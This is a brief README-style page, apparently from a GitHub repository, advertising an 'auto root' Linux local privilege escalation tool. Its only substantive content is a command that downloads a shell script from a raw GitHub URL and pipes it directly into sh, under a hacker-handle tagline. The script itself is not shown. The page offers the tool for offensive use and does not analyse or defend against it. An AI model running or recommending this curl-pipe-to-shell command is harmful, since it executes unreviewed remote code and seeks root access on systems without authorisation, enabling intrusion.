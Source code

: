 # localroot Auto Root Linux Privilege Escalation

```bash
# From public github

curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh | sh
```
☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
